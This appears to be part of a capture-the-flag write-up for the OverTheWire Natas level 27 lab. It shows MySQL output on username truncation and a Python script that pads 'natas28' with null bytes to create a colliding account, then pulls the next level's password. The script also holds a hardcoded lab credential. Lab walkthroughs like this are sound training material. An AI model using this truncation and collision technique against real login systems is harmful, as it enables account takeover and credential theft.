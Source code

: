 ```
+----------+----------+
| username | password |
+----------+----------+
| joe      | p1       |
+----------+----------+


INSERT INTO users (username,password) values ('joe anything','p2');
select * from users;

+----------+----------+
| username | password |
+----------+----------+
| joe      | p1       |
| joe      | p2       |
+----------+----------+

Is the space still there?

select * from users where username='joe'; // see the results
+----------+----------+
| username | password |
+----------+----------+
| joe      | p1       |
| joe      | p2       |
+----------+----------+
remaing chracter are truncated
Let’s check the lengths…

select username,LENGTH(username) from users;

+----------+------------------+
| username | LENGTH(username) |
+----------+------------------+
| joe      |                3 |
| joe      |                4 |
+----------+------------------+

```

Let's write full python script

```py
import requests
import re
import urllib.parse as urllib

username = "natas27"
password = "PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3"

url = "http://%s.natas.labs.overthewire.org"%username

session = requests.Session()

uname = "natas28" + "%00" * 58 + "anything" # we can use either null (%00) or " " space
data = urllib.unquote(uname)

response = requests.post(url,data={"username" : data , "password" : "anything"} , auth=(username,password))
response = requests.post(url,data={"username" : "natas28" , "password" : "anything"   } , auth=(username,password))
content = response.text
flag = re.findall(r"\[password\] => (\w+)",content)[0]
print("[+] Gotcha :",flag)
```